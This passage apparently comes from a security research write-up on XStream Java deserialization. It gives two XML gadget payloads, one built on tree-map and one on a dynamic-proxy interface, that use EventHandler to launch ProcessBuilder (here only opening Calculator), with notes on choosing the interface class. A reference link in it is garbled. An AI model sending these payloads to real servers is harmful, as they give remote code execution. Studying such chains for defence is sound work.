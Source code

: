 
Based on `tree-map`:

```xml
<tree-map>
<entry>
    <string>fookey</string>
    <string>foovalue</string>
</entry>
<entry>
    <dynamic-proxy>
        <interface>java.lang.Comparable</interface>
        <handler class="java.beans.EventHandler">
            <target class="java.lang.ProcessBuilder">
                <command>
                    <string>open</string>
                    <string>-a</string>
                    <string>Calculator</string>
                </command>
            </target>
            <action>start</action>
        </handler>
    </dynamic-proxy>
    <string>good</string>
</entry>
</tree-map>
```

Based on interfaces, please note here:
 - You must know what interface class is obtained by server deserialization, and you need to fill in `interface`.
 - The interface class must be defined as `public`, otherwise the program will report an error when it runs, which shows that there is no permission to access the interface class.

```xml
<contact class='dynamic-proxy'>
<interface>org.h3rmesk1t.XStream.DemoInterface</interface>
<handler class='java.beans.EventHandler'>
    <target class='java.lang.ProcessBuilder'>
        <command>
            <string>open</string>
            <string>-a</string>
            <string>Calculator</string>
        </command>
    </target>
    <action>start</action>
</handler>
</contact>
```

<div align=center><img src="./images/5.png"></div>

#### Process Analysis
Reference [Java XStream Deserialization Vulnerability](https://www.mi1k7ea.com/2019/10/21/XStream%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/#:~:text=%E4%B8%8B%E9%9D%A2%E6%88%91%E4%BB%AC%E5%9C%A8xstream.fromXML()%E8%AF%AD%E5%8F%A5%E4%B8%AD%E6%89%93%E4%B8%8A%E6%96%AD%E Debugging process in 7%82%B9%E8%BF%9B%E8%A1%8C%E8%B0%83%E8%AF%95%EF%BC%8C%E5%90%8C%E6%97%B6%E5%9C%A8EventHandler%E7%B1%BB%E4%B8%AD%E7%9A%84invoke()%E5%92%8CinvokeInternal()%E5%87%BD%E6%95%B0%E4%B8%8A%E4%B9%9F%E6%89%93%E4%B8%8A%E6%96%AD%E7%82%B9%E3%80%82).
